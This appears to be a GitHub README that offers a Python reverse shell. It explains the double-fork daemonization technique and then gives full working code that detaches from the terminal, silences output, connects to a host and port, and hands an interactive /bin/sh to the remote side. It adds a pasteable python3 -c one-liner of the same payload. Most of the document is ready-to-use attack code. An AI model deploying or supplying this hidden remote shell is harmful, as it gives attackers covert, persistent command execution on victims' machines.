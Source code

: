## Python Background Reverse Shell

This script will create a "daemonized" reverse shell in python  

This uses the "double fork" method to create a daemonized reverse shell  
Background:
- In Unix, every process belongs to a group, which in turn belongs to a session
- Here is the hierarchy: Session (SID) -> Process Group (PGID) -> Process (PID)  
- Every session can have one TTY associated with it. Only a session leader can take control of a TTY

So, after the first fork/parent kill, the process becomes the session leader, and could take control of a TTY  
We do not want this, so we run setsid() to create a new session and make ourselves the session leader of a new session, then kill the parent again, and now we are not the session leader, so cannot control a tty

```python
HOST = "127.0.0.1"
PORT = 9999

import socket,subprocess,os,sys

# If pid is greater than 0, we are in the parent process
pidrg = os.fork()
if pidrg > 0:
	sys.exit(0)

os.chdir("/")

# set sid makes us the session leader of a new session
os.setsid()

# umask changes the file permissions for all files created by this process
os.umask(0)

# If pid is greater than 0, we are in the parent process
drgpid = os.fork()
if drgpid > 0:
	sys.exit(0)

sys.stdout.flush()
sys.stderr.flush()

fdreg = open("/dev/null", "w")

sys.stdout = fdreg
sys.stderr = fdreg

sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sdregs.connect((HOST, PORT))

# duplicate sdregs.fileno() to 0, 1, 2
# sdregs.fileno() returns the sockets file descriptor
# the dup2s duplicate it onto the stdin, stdout, and stderr file descriptors
os.dup2(sdregs.fileno(), 0) # sys.stdin.fileno() = 0
os.dup2(sdregs.fileno(), 1) # sys.stout.fileno() = 1
os.dup2(sdregs.fileno(), 2) # sys.stderr.fileno() = 2

p=subprocess.call(["/bin/sh","-i"])
```

This shell can also be invoked with the following sh one liner:

```sh
python3 -c 'exec("""\nHOST="127.0.0.1"\nPORT=9999\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect((HOST,PORT))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")'
```